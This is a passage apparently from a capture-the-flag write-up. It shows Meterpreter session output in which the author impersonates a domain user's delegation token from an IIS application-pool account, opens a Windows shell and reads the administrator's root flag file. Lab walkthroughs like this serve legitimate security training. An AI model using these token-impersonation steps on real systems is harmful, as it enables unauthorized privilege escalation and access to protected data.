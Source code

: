```
========================================
IIS APPPOOL\ip

meterpreter > impersonate_token RE\\coby
[+] Delegation token available
[+] Successfully impersonated user RE\coby
```

And I can now read the flag:

```
meterpreter > shell
Process 3760 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
1B4FB90...
```